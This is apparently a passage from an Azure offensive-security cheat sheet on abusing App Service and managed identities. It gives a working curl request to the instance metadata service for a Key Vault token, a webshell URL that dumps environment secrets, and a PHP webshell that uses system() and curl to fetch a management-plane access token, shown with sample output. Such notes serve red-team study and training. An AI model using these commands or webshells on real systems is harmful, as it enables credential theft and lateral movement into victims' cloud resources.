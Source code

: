 ##### Targeting Azure Key Vault
```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net"
```

--> Then Token can be used directly with **Azure REST API**  

#### Enterprise Apps
#### App Services
> Azure App Service is an HTTP-based service for hosting web applications, REST APIs, and mobile back ends.

App Service contains the following Azure web resources:  
- Web App
- Function App
- Mobile Apps

- Linux environnement
- Windows environnement

**Languages**: .NET, .NET Core, Java, Python, Ruby, NodeJS, PHP  

--> App runs inside a sandbox with different isolation level depending on App Service Plan and tarification:  

- Apps in Free and Shared tiers run on shared VMs
- Apps in Standard and Premium tiers run on dedicated VMs

Abuse App Service : vulnerabilities in the code deployed are abusable using classic web application vulnerabilities or business logic flaw.  

--> Command Execution within an app service will result in low-privilege execution context based on the worker process permissions.  
--> In case the app service use **Managed Identity**, it would be possible to impersonate and abuse this managed identity and potentially access other Azure resources.  

- If the app service contains environment variables **IDENTITY_HEADER**
and **IDENTITY_ENDPOINT**, it has a managed identity.

WebShell PHP 1: Accessing environment variables
```
http://company.azurewebsites.net/uploads/webshell.php?cmd=env  
```

> IDENTITY_HEADER=b53d3a04-f0f5-4859-984e-36ab406f80fe
> IDENTITY_ENDPOINT=http://169.254.129.2:8081/msi/token

WebShell PHP 2: Accessing access token for the managed identity
```
<?php

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>


{"access_token":"eyJ0csFS534CJhbGciOiJSFDZAD","expires_on":"11/02/2020 22:10:03 +00:00","resource":"https://management.azure.com/","token_type":"Bearer","client_id":"064423R237-dzef-45gt-25ko-dzeji56j32"}
```
